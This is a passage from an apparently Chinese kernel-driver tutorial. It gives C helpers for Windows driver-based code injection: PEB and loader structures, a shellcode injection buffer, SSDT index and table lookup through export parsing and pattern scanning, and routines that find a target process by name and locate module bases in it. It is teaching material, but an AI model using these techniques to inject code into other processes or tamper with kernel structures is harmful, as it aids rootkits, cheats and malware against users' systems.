typedef struct _PEB_LDR_DATA
{
    ULONG Length;
    UCHAR Initialized;
    PVOID SsHandle;
    LIST_ENTRY InLoadOrderModuleList;
    LIST_ENTRY InMemoryOrderModuleList;
    LIST_ENTRY InInitializationOrderModuleList;
} PEB_LDR_DATA, *PPEB_LDR_DATA;

// PEB32/PEB64
typedef struct _PEB32
{
    UCHAR InheritedAddressSpace;
    UCHAR ReadImageFileExecOptions;
    UCHAR BeingDebugged;
    UCHAR BitField;
    ULONG Mutant;
    ULONG ImageBaseAddress;
    ULONG Ldr;
    ULONG ProcessParameters;
    ULONG SubSystemData;
    ULONG ProcessHeap;
    ULONG FastPebLock;
    ULONG AtlThunkSListPtr;
    ULONG IFEOKey;
    ULONG CrossProcessFlags;
    ULONG UserSharedInfoPtr;
    ULONG SystemReserved;
    ULONG AtlThunkSListPtr32;
    ULONG ApiSetMap;
} PEB32, *PPEB32;

typedef struct _PEB
{
    UCHAR InheritedAddressSpace;
    UCHAR ReadImageFileExecOptions;
    UCHAR BeingDebugged;
    UCHAR BitField;
    PVOID Mutant;
    PVOID ImageBaseAddress;
    PPEB_LDR_DATA Ldr;
    PVOID ProcessParameters;
    PVOID SubSystemData;
    PVOID ProcessHeap;
    PVOID FastPebLock;
    PVOID AtlThunkSListPtr;
    PVOID IFEOKey;
    PVOID CrossProcessFlags;
    PVOID KernelCallbackTable;
    ULONG SystemReserved;
    ULONG AtlThunkSListPtr32;
    PVOID ApiSetMap;
} PEB, *PPEB;

typedef struct _LDR_DATA_TABLE_ENTRY32
{
    LIST_ENTRY32 InLoadOrderLinks;
    LIST_ENTRY32 InMemoryOrderLinks;
    LIST_ENTRY32 InInitializationOrderLinks;
    ULONG DllBase;
    ULONG EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING32 FullDllName;
    UNICODE_STRING32 BaseDllName;
    ULONG Flags;
    USHORT LoadCount;
    USHORT TlsIndex;
    LIST_ENTRY32 HashLinks;
    ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY32, *PLDR_DATA_TABLE_ENTRY32;

typedef struct _LDR_DATA_TABLE_ENTRY
{
    LIST_ENTRY InLoadOrderLinks;
    LIST_ENTRY InMemoryOrderLinks;
    LIST_ENTRY InInitializationOrderLinks;
    PVOID DllBase;
    PVOID EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    ULONG Flags;
    USHORT LoadCount;
    USHORT TlsIndex;
    LIST_ENTRY HashLinks;
    ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;

typedef struct _THREAD_BASIC_INFORMATION
{
    NTSTATUS ExitStatus;
    PVOID TebBaseAddress;
    CLIENT_ID ClientId;
    ULONG_PTR AffinityMask;
    LONG Priority;
    LONG BasePriority;
} THREAD_BASIC_INFORMATION, *PTHREAD_BASIC_INFORMATION;

typedef struct _NT_PROC_THREAD_ATTRIBUTE_ENTRY
{
    ULONG Attribute;    // PROC_THREAD_ATTRIBUTE_XXX
    SIZE_T Size;
    ULONG_PTR Value;
    ULONG Unknown;
} NT_PROC_THREAD_ATTRIBUTE_ENTRY, *NT_PPROC_THREAD_ATTRIBUTE_ENTRY;

typedef struct _NT_PROC_THREAD_ATTRIBUTE_LIST
{
    ULONG Length;
    NT_PROC_THREAD_ATTRIBUTE_ENTRY Entry[1];
} NT_PROC_THREAD_ATTRIBUTE_LIST, *PNT_PROC_THREAD_ATTRIBUTE_LIST;


// 注入ShellCode结构
typedef struct _INJECT_BUFFER
{
    UCHAR Code[0x200];
    union
    {
        UNICODE_STRING Path64;
        UNICODE_STRING32 Path32;
    };
    wchar_t Buffer[488];
    PVOID ModuleHandle;
    ULONG Complete;
    NTSTATUS Status;
} INJECT_BUFFER, *PINJECT_BUFFER;

// -----------------------------------------------------------------------------------
// 一些开发中的通用函数封装，可任意拷贝使用
// -----------------------------------------------------------------------------------

// 传入函数名获取SSDT导出表RVA
// 参数1：传入函数名称
ULONG GetSSDTRVA(UCHAR *function_name)
{
    NTSTATUS Status;
    HANDLE FileHandle;
    IO_STATUS_BLOCK ioStatus;
    FILE_STANDARD_INFORMATION FileInformation;

    // 设置NTDLL路径
    UNICODE_STRING uniFileName;
    RtlInitUnicodeString(&uniFileName, L"\\SystemRoot\\system32\\ntoskrnl.exe");

    // 初始化打开文件的属性
    OBJECT_ATTRIBUTES objectAttributes;
    InitializeObjectAttributes(&objectAttributes, &uniFileName, OBJ_KERNEL_HANDLE | OBJ_CASE_INSENSITIVE, NULL, NULL);

    // 打开文件
    Status = IoCreateFile(&FileHandle, FILE_READ_ATTRIBUTES | SYNCHRONIZE, &objectAttributes, &ioStatus, 0, FILE_READ_ATTRIBUTES, FILE_SHARE_READ, FILE_OPEN, FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0, CreateFileTypeNone, NULL, IO_NO_PARAMETER_CHECKING);
    if (!NT_SUCCESS(Status))
    {
        return 0;
    }

    // 获取文件信息
    Status = ZwQueryInformationFile(FileHandle, &ioStatus, &FileInformation, sizeof(FILE_STANDARD_INFORMATION), FileStandardInformation);
    if (!NT_SUCCESS(Status))
    {
        ZwClose(FileHandle);
        return 0;
    }

    // 判断文件大小是否过大
    if (FileInformation.EndOfFile.HighPart != 0)
    {
        ZwClose(FileHandle);
        return 0;
    }
    // 取文件大小
    ULONG uFileSize = FileInformation.EndOfFile.LowPart;

    // 分配内存
    PVOID pBuffer = ExAllocatePoolWithTag(PagedPool, uFileSize + 0x100, (ULONG)"PGu");
    if (pBuffer == NULL)
    {
        ZwClose(FileHandle);
        return 0;
    }

    // 从头开始读取文件
    LARGE_INTEGER byteOffset;
    byteOffset.LowPart = 0;
    byteOffset.HighPart = 0;
    Status = ZwReadFile(FileHandle, NULL, NULL, NULL, &ioStatus, pBuffer, uFileSize, &byteOffset, NULL);
    if (!NT_SUCCESS(Status))
    {
        ZwClose(FileHandle);
        return 0;
    }

    // 取出导出表
    PIMAGE_DOS_HEADER pDosHeader;
    PIMAGE_NT_HEADERS pNtHeaders;
    PIMAGE_SECTION_HEADER pSectionHeader;
    ULONGLONG FileOffset;
    PIMAGE_EXPORT_DIRECTORY pExportDirectory;

    // DLL内存数据转成DOS头结构
    pDosHeader = (PIMAGE_DOS_HEADER)pBuffer;

    // 取出PE头结构
    pNtHeaders = (PIMAGE_NT_HEADERS)((ULONGLONG)pBuffer + pDosHeader->e_lfanew);

    // 判断PE头导出表表是否为空
    if (pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress == 0)
    {
        return 0;
    }

    // 取出导出表偏移
    FileOffset = pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;

    // 取出节头结构
    pSectionHeader = (PIMAGE_SECTION_HEADER)((ULONGLONG)pNtHeaders + sizeof(IMAGE_NT_HEADERS));
    PIMAGE_SECTION_HEADER pOldSectionHeader = pSectionHeader;

    // 遍历节结构进行地址运算
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }

    // 导出表地址
    pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((ULONGLONG)pBuffer + FileOffset);

    // 取出导出表函数地址
    PULONG AddressOfFunctions;
    FileOffset = pExportDirectory->AddressOfFunctions;

    // 遍历节结构进行地址运算
    pSectionHeader = pOldSectionHeader;
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }
    AddressOfFunctions = (PULONG)((ULONGLONG)pBuffer + FileOffset);

    // 取出导出表函数名字
    PUSHORT AddressOfNameOrdinals;
    FileOffset = pExportDirectory->AddressOfNameOrdinals;

    // 遍历节结构进行地址运算
    pSectionHeader = pOldSectionHeader;
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }
    AddressOfNameOrdinals = (PUSHORT)((ULONGLONG)pBuffer + FileOffset);

    //取出导出表函数序号
    PULONG AddressOfNames;
    FileOffset = pExportDirectory->AddressOfNames;

    //遍历节结构进行地址运算
    pSectionHeader = pOldSectionHeader;

    // 循环所有节
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        // 寻找符合条件的节
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            // 得到文件偏移
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }
    AddressOfNames = (PULONG)((ULONGLONG)pBuffer + FileOffset);

    //DbgPrint("\n AddressOfFunctions %llX AddressOfNameOrdinals %llX AddressOfNames %llX  \n", (ULONGLONG)AddressOfFunctions- (ULONGLONG)pBuffer, (ULONGLONG)AddressOfNameOrdinals- (ULONGLONG)pBuffer, (ULONGLONG)AddressOfNames- (ULONGLONG)pBuffer);
    //DbgPrint("\n AddressOfFunctions %llX AddressOfNameOrdinals %llX AddressOfNames %llX  \n", pExportDirectory->AddressOfFunctions, pExportDirectory->AddressOfNameOrdinals, pExportDirectory->AddressOfNames);

    // 开始分析导出表
    ULONG uOffset;
    LPSTR FunName;
    ULONG uAddressOfNames;
    ULONG TargetOff = 0;

    // 循环导出表
    for (ULONG uIndex = 0; uIndex < pExportDirectory->NumberOfNames; uIndex++, AddressOfNames++, AddressOfNameOrdinals++)
    {
        uAddressOfNames = *AddressOfNames;
        pSectionHeader = pOldSectionHeader;
        for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
        {
            // 函数地址在某个范围内
            if (pSectionHeader->VirtualAddress <= uAddressOfNames && uAddressOfNames <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
            {
                uOffset = uAddressOfNames - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
            }
        }

        // 得到函数名
        FunName = (LPSTR)((ULONGLONG)pBuffer + uOffset);

        // 判断是否符合要求
        if (!_stricmp((const char *)function_name, FunName))
        {
            // 返回函数地址
            TargetOff = (ULONG)AddressOfFunctions[*AddressOfNameOrdinals];
            DbgPrint("索引 [ %p ] 函数名 [ %s ] 相对RVA [ %p ] \n", *AddressOfNameOrdinals, FunName, TargetOff);
        }

    }

    ExFreePoolWithTag(pBuffer, (ULONG)"PGu");
    ZwClose(FileHandle);
    return TargetOff;
}

// 传入函数名 获取该函数所在模块下标
ULONG GetIndexByName(UCHAR *function_name)
{
    NTSTATUS Status;
    HANDLE FileHandle;
    IO_STATUS_BLOCK ioStatus;
    FILE_STANDARD_INFORMATION FileInformation;

    // 设置NTDLL路径
    UNICODE_STRING uniFileName;
    RtlInitUnicodeString(&uniFileName, L"\\SystemRoot\\system32\\ntdll.dll");

    // 初始化打开文件的属性
    OBJECT_ATTRIBUTES objectAttributes;
    InitializeObjectAttributes(&objectAttributes, &uniFileName, OBJ_KERNEL_HANDLE | OBJ_CASE_INSENSITIVE, NULL, NULL);

    // 打开文件
    Status = IoCreateFile(&FileHandle, FILE_READ_ATTRIBUTES | SYNCHRONIZE, &objectAttributes, &ioStatus, 0, FILE_READ_ATTRIBUTES, FILE_SHARE_READ, FILE_OPEN, FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0, CreateFileTypeNone, NULL, IO_NO_PARAMETER_CHECKING);
    if (!NT_SUCCESS(Status))
    {
        return 0;
    }

    // 获取文件信息
    Status = ZwQueryInformationFile(FileHandle, &ioStatus, &FileInformation, sizeof(FILE_STANDARD_INFORMATION), FileStandardInformation);
    if (!NT_SUCCESS(Status))
    {
        ZwClose(FileHandle);
        return 0;
    }

    // 判断文件大小是否过大
    if (FileInformation.EndOfFile.HighPart != 0)
    {
        ZwClose(FileHandle);
        return 0;
    }

    // 取文件大小
    ULONG uFileSize = FileInformation.EndOfFile.LowPart;

    // 分配内存
    PVOID pBuffer = ExAllocatePoolWithTag(PagedPool, uFileSize + 0x100, (ULONG)"Ntdl");
    if (pBuffer == NULL)
    {
        ZwClose(FileHandle);
        return 0;
    }

    // 从头开始读取文件
    LARGE_INTEGER byteOffset;
    byteOffset.LowPart = 0;
    byteOffset.HighPart = 0;
    Status = ZwReadFile(FileHandle, NULL, NULL, NULL, &ioStatus, pBuffer, uFileSize, &byteOffset, NULL);
    if (!NT_SUCCESS(Status))
    {
        ZwClose(FileHandle);
        return 0;
    }

    // 取出导出表
    PIMAGE_DOS_HEADER pDosHeader;
    PIMAGE_NT_HEADERS pNtHeaders;
    PIMAGE_SECTION_HEADER pSectionHeader;
    ULONGLONG FileOffset;
    PIMAGE_EXPORT_DIRECTORY pExportDirectory;

    // DLL内存数据转成DOS头结构
    pDosHeader = (PIMAGE_DOS_HEADER)pBuffer;

    // 取出PE头结构
    pNtHeaders = (PIMAGE_NT_HEADERS)((ULONGLONG)pBuffer + pDosHeader->e_lfanew);

    // 判断PE头导出表表是否为空
    if (pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress == 0)
    {
        return 0;
    }

    // 取出导出表偏移
    FileOffset = pNtHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;

    // 取出节头结构
    pSectionHeader = (PIMAGE_SECTION_HEADER)((ULONGLONG)pNtHeaders + sizeof(IMAGE_NT_HEADERS));
    PIMAGE_SECTION_HEADER pOldSectionHeader = pSectionHeader;

    // 遍历节结构进行地址运算
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }

    // 导出表地址
    pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((ULONGLONG)pBuffer + FileOffset);

    // 取出导出表函数地址
    PULONG AddressOfFunctions;
    FileOffset = pExportDirectory->AddressOfFunctions;

    // 遍历节结构进行地址运算
    pSectionHeader = pOldSectionHeader;
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }

    // 此处需要注意foa和rva转换过程
    AddressOfFunctions = (PULONG)((ULONGLONG)pBuffer + FileOffset);

    // 取出导出表函数名字
    PUSHORT AddressOfNameOrdinals;
    FileOffset = pExportDirectory->AddressOfNameOrdinals;

    // 遍历节结构进行地址运算
    pSectionHeader = pOldSectionHeader;
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }

    // 此处需要注意foa和rva转换过程
    AddressOfNameOrdinals = (PUSHORT)((ULONGLONG)pBuffer + FileOffset);

    // 取出导出表函数序号
    PULONG AddressOfNames;
    FileOffset = pExportDirectory->AddressOfNames;

    // 遍历节结构进行地址运算
    pSectionHeader = pOldSectionHeader;
    for (UINT16 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
    {
        if (pSectionHeader->VirtualAddress <= FileOffset && FileOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
        {
            FileOffset = FileOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
        }
    }

    // 此处需要注意foa和rva转换过程
    AddressOfNames = (PULONG)((ULONGLONG)pBuffer + FileOffset);

    // 分析导出表
    ULONG uNameOffset;
    ULONG uOffset;
    LPSTR FunName;
    PVOID pFuncAddr;
    ULONG uServerIndex;
    ULONG uAddressOfNames;

    for (ULONG uIndex = 0; uIndex < pExportDirectory->NumberOfNames; uIndex++, AddressOfNames++, AddressOfNameOrdinals++)
    {
        uAddressOfNames = *AddressOfNames;
        pSectionHeader = pOldSectionHeader;
        for (UINT32 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
        {
            if (pSectionHeader->VirtualAddress <= uAddressOfNames && uAddressOfNames <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
            {
                uOffset = uAddressOfNames - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
            }
        }

        FunName = (LPSTR)((ULONGLONG)pBuffer + uOffset);

        // 判断开头是否是Zw
        if (FunName[0] == 'Z' && FunName[1] == 'w')
        {
            pSectionHeader = pOldSectionHeader;

            // 如果是则根据AddressOfNameOrdinals得到文件偏移
            uOffset = (ULONG)AddressOfFunctions[*AddressOfNameOrdinals];

            for (UINT32 Index = 0; Index < pNtHeaders->FileHeader.NumberOfSections; Index++, pSectionHeader++)
            {
                if (pSectionHeader->VirtualAddress <= uOffset && uOffset <= pSectionHeader->VirtualAddress + pSectionHeader->SizeOfRawData)
                {
                    uNameOffset = uOffset - pSectionHeader->VirtualAddress + pSectionHeader->PointerToRawData;
                }
            }

            pFuncAddr = (PVOID)((ULONGLONG)pBuffer + uNameOffset);
            uServerIndex = *(PULONG)((ULONGLONG)pFuncAddr + 4);
            FunName[0] = 'N';
            FunName[1] = 't';

            // 获得指定的编号
            if (!_stricmp(FunName, (const char *)function_name))
            {
                ExFreePoolWithTag(pBuffer, (ULONG)"Ntdl");
                ZwClose(FileHandle);
                return uServerIndex;
            }
        }
    }

    ExFreePoolWithTag(pBuffer, (ULONG)"Ntdl");
    ZwClose(FileHandle);
    return 0;
}

// 获取模块导出函数
PVOID GetModuleExportAddress(IN PVOID ModuleBase, IN PCCHAR FunctionName, IN PEPROCESS EProcess)
{
    PIMAGE_DOS_HEADER ImageDosHeader = (PIMAGE_DOS_HEADER)ModuleBase;
    PIMAGE_NT_HEADERS32 ImageNtHeaders32 = NULL;
    PIMAGE_NT_HEADERS64 ImageNtHeaders64 = NULL;
    PIMAGE_EXPORT_DIRECTORY ImageExportDirectory = NULL;
    ULONG ExportDirectorySize = 0;
    ULONG_PTR FunctionAddress = 0;

    if (ModuleBase == NULL)
    {
        return NULL;
    }

    if (ImageDosHeader->e_magic != IMAGE_DOS_SIGNATURE)
    {
        return NULL;
    }

    ImageNtHeaders32 = (PIMAGE_NT_HEADERS32)((PUCHAR)ModuleBase + ImageDosHeader->e_lfanew);
    ImageNtHeaders64 = (PIMAGE_NT_HEADERS64)((PUCHAR)ModuleBase + ImageDosHeader->e_lfanew);

    // 判断PE结构位数
    if (ImageNtHeaders64->OptionalHeader.Magic == IMAGE_NT_OPTIONAL_HDR64_MAGIC)
    {
        ImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)(ImageNtHeaders64->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress + (ULONG_PTR)ModuleBase);
        ExportDirectorySize = ImageNtHeaders64->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size;
    }
    else
    {
        ImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)(ImageNtHeaders32->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress + (ULONG_PTR)ModuleBase);
        ExportDirectorySize = ImageNtHeaders32->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size;
    }

    // 解析内存导出表
    PUSHORT pAddressOfOrds = (PUSHORT)(ImageExportDirectory->AddressOfNameOrdinals + (ULONG_PTR)ModuleBase);
    PULONG  pAddressOfNames = (PULONG)(ImageExportDirectory->AddressOfNames + (ULONG_PTR)ModuleBase);
    PULONG  pAddressOfFuncs = (PULONG)(ImageExportDirectory->AddressOfFunctions + (ULONG_PTR)ModuleBase);

    for (ULONG i = 0; i < ImageExportDirectory->NumberOfFunctions; ++i)
    {
        USHORT OrdIndex = 0xFFFF;
        PCHAR  pName = NULL;

        // 如果函数名小于等于0xFFFF 则说明是序号导出
        if ((ULONG_PTR)FunctionName <= 0xFFFF)
        {
            OrdIndex = (USHORT)i;
        }

        // 否则则说明是名字导出
        else if ((ULONG_PTR)FunctionName > 0xFFFF && i < ImageExportDirectory->NumberOfNames)
        {
            pName = (PCHAR)(pAddressOfNames[i] + (ULONG_PTR)ModuleBase);
            OrdIndex = pAddressOfOrds[i];
        }

        // 未知导出函数
        else
        {
            return NULL;
        }

        // 对比模块名是否是我们所需要的
        if (((ULONG_PTR)FunctionName <= 0xFFFF && (USHORT)((ULONG_PTR)FunctionName) == OrdIndex + ImageExportDirectory->Base) || ((ULONG_PTR)FunctionName > 0xFFFF && strcmp(pName, FunctionName) == 0))
        {
            // 是则保存下来
            FunctionAddress = pAddressOfFuncs[OrdIndex] + (ULONG_PTR)ModuleBase;
            break;
        }
    }
    return (PVOID)FunctionAddress;
}

// 获取指定用户模块基址
PVOID GetUserModuleAddress(IN PEPROCESS EProcess, IN PUNICODE_STRING ModuleName, IN BOOLEAN IsWow64)
{
    if (EProcess == NULL)
    {
        return NULL;
    }

    __try
    {
        // 定时250ms毫秒
        LARGE_INTEGER Time = { 0 };
        Time.QuadPart = -250ll * 10 * 1000;

        // 32位执行
        if (IsWow64)
        {
            // 得到进程PEB进程环境块
            PPEB32 Peb32 = (PPEB32)PsGetProcessWow64Process(EProcess);
            if (Peb32 == NULL)
            {
                return NULL;
            }

            // 等待 250ms * 10
            for (INT i = 0; !Peb32->Ldr && i < 10; i++)
            {
                // 等待一会在执行
                KeDelayExecutionThread(KernelMode, TRUE, &Time);
            }

            // 没有找到返回空
            if (!Peb32->Ldr)
            {
                return NULL;
            }

            // 搜索 InLoadOrderModuleList
            for (PLIST_ENTRY32 ListEntry = (PLIST_ENTRY32)((PPEB_LDR_DATA32)Peb32->Ldr)->InLoadOrderModuleList.Flink; ListEntry != &((PPEB_LDR_DATA32)Peb32->Ldr)->InLoadOrderModuleList; ListEntry = (PLIST_ENTRY32)ListEntry->Flink)
            {
                UNICODE_STRING UnicodeString;
                PLDR_DATA_TABLE_ENTRY32 LdrDataTableEntry32 = CONTAINING_RECORD(ListEntry, LDR_DATA_TABLE_ENTRY32, InLoadOrderLinks);
                RtlUnicodeStringInit(&UnicodeString, (PWCH)LdrDataTableEntry32->BaseDllName.Buffer);

                // 判断模块名是否符合要求
                if (RtlCompareUnicodeString(&UnicodeString, ModuleName, TRUE) == 0)
                {
                    // 符合则返回模块基址
                    return (PVOID)LdrDataTableEntry32->DllBase;
                }
            }
        }

        // 64位执行
        else
        {
            // 得到进程PEB进程环境块
            PPEB Peb = PsGetProcessPeb(EProcess);
            if (!Peb)
            {
                return NULL;
            }

            // 等待
            for (INT i = 0; !Peb->Ldr && i < 10; i++)
            {
                // 将当前线程置于指定间隔的可警报或不可操作的等待状态
                KeDelayExecutionThread(KernelMode, TRUE, &Time);
            }
            if (!Peb->Ldr)
            {
                return NULL;
            }

            // 遍历链表
            for (PLIST_ENTRY ListEntry = Peb->Ldr->InLoadOrderModuleList.Flink; ListEntry != &Peb->Ldr->InLoadOrderModuleList; ListEntry = ListEntry->Flink)
            {
                PLDR_DATA_TABLE_ENTRY LdrDataTableEntry = CONTAINING_RECORD(ListEntry, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks);

                // 判断模块名是否符合要求
                if (RtlCompareUnicodeString(&LdrDataTableEntry->BaseDllName, ModuleName, TRUE) == 0)
                {
                    // 返回模块基址
                    return LdrDataTableEntry->DllBase;
                }
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        return NULL;
    }

    return NULL;
}

//得到ntos的基址
ULONGLONG GetOsBaseAddress(PDRIVER_OBJECT pDriverObject)
{
    UNICODE_STRING osName = { 0 };
    WCHAR wzData[0x100] = L"ntoskrnl.exe";

    RtlInitUnicodeString(&osName, wzData);

    LDR_DATA_TABLE_ENTRY *pDataTableEntry, *pTempDataTableEntry;

    // 双循环链表定义
    PLIST_ENTRY pList;

    // 指向驱动对象的DriverSection
    pDataTableEntry = (LDR_DATA_TABLE_ENTRY*)pDriverObject->DriverSection;

    // 判断是否为空
    if (!pDataTableEntry)
    {
        return 0;
    }

    // 得到链表地址
    pList = pDataTableEntry->InLoadOrderLinks.Flink;

    // 判断是否等于头部
    while (pList != &pDataTableEntry->InLoadOrderLinks)
    {
        pTempDataTableEntry = (LDR_DATA_TABLE_ENTRY *)pList;

        // 如果是ntoskrnl.exe则返回该模块基址
        if (RtlEqualUnicodeString(&pTempDataTableEntry->BaseDllName, &osName, TRUE))
        {
            return (ULONGLONG)pTempDataTableEntry->DllBase;
        }
        pList = pList->Flink;
    }
    return 0;
}

// 得到SSDT表的基地址
ULONGLONG GetKeServiceDescriptorTable64(PDRIVER_OBJECT DriverObject)
{

    /*
    nt!KiSystemServiceUser+0xdc:
    fffff806`42c79987 8bf8            mov     edi,eax
    fffff806`42c79989 c1ef07          shr     edi,7
    fffff806`42c7998c 83e720          and     edi,20h
    fffff806`42c7998f 25ff0f0000      and     eax,0FFFh

    nt!KiSystemServiceRepeat:
    fffff806`42c79994 4c8d15e59e3b00  lea     r10,[nt!KeServiceDescriptorTable (fffff806`43033880)]
    fffff806`42c7999b 4c8d1dde203a00  lea     r11,[nt!KeServiceDescriptorTableShadow (fffff806`4301ba80)]
    fffff806`42c799a2 f7437880000000  test    dword ptr [rbx+78h],80h
    fffff806`42c799a9 7413            je      nt!KiSystemServiceRepeat+0x2a (fffff806`42c799be)
    */
    char KiSystemServiceStart_pattern[14] = "\x8B\xF8\xC1\xEF\x07\x83\xE7\x20\x25\xFF\x0F\x00\x00";

    /*
    ULONG rva = GetRvaFromModule(L"\\SystemRoot\\system32\\ntoskrnl.exe", "_stricmp");
    DbgPrint("NtReadFile VA = %p \n", rva);
    ULONG _stricmp_offset = 0x19d710;
    */

    ULONGLONG CodeScanStart = GetSSDTRVA((UCHAR *)"_stricmp") + GetOsBaseAddress(DriverObject);

    ULONGLONG i, tbl_address, b;
    for (i = 0; i < 0x50000; i++)
    {
        // 比较特征
        if (!memcmp((char*)(ULONGLONG)CodeScanStart + i, (char*)KiSystemServiceStart_pattern, 13))
        {
            for (b = 0; b < 50; b++)
            {
                tbl_address = ((ULONGLONG)CodeScanStart + i + b);

                // 4c 8d 15 e5 9e 3b 00  lea r10,[nt!KeServiceDescriptorTable (fffff802`64da4880)]
                // if (*(USHORT*)((ULONGLONG)tbl_address) == (USHORT)0x158d4c)
                if (*(USHORT*)((ULONGLONG)tbl_address) == (USHORT)0x8d4c)
                {
                    return ((LONGLONG)tbl_address + 7) + *(LONG*)(tbl_address + 3);
                }
            }
        }
    }
    return 0;
}

// 根据SSDT序号得到函数基址
ULONGLONG GetSSDTFuncCurAddr(ULONG index)
{
    /*
    mov rax, rcx                   ; rcx=Native API 的 index
    lea r10,[rdx]                  ; rdx=ssdt 基址
    mov edi,eax                    ; index
    shr edi,7
    and edi,20h
    mov r10, qword ptr [r10+rdi]   ; ServiceTableBase
    movsxd r11,dword ptr [r10+rax] ; 没有右移的假ssdt的地址
    mov rax,r11
    sar r11,4
    add r10,r11
    mov rax,r10
    ret
    */
    LONG dwtmp = 0;
    PULONG ServiceTableBase = NULL;
    ServiceTableBase = (PULONG)KeServiceDescriptorTable->ServiceTableBase;
    dwtmp = ServiceTableBase[index];

    // 先右移4位之后加上基地址 就可以得到ssdt的地址
    dwtmp = dwtmp >> 4;

    return (LONGLONG)dwtmp + (ULONGLONG)ServiceTableBase;
}

// 根据进程ID返回进程EPROCESS
PEPROCESS LookupProcess(HANDLE Pid)
{
    PEPROCESS eprocess = NULL;
    if (NT_SUCCESS(PsLookupProcessByProcessId(Pid, &eprocess)))
    {
        return eprocess;
    }
    else
    {
        return NULL;
    }
}

// 根据用户传入进程名得到该进程PID
HANDLE GetProcessID(PCHAR ProcessName)
{
    ULONG i = 0;
    PEPROCESS eproc = NULL;
    for (i = 4; i<100000000; i = i + 4)
    {
        eproc = LookupProcess((HANDLE)i);
        if (eproc != NULL)
        {
            ObDereferenceObject(eproc);

            // 根据进程名得到进程EPEPROCESS
            if (strstr(PsGetProcessImageFileName(eproc), ProcessName) != NULL)
            {
                return PsGetProcessId(eproc);
            }
        }
    }
    return NULL;
}
```

为了能更好的完成驱动注入实现原理的讲解，也可以让用户理解如上方所封装的API函数的使用流程，接下来将依次讲解上方这些通用API函数的作用以及使用方法，其目的是让用户可以更好的学会功能运用，以此在后期项目开发中可以更好的使用这些功能。

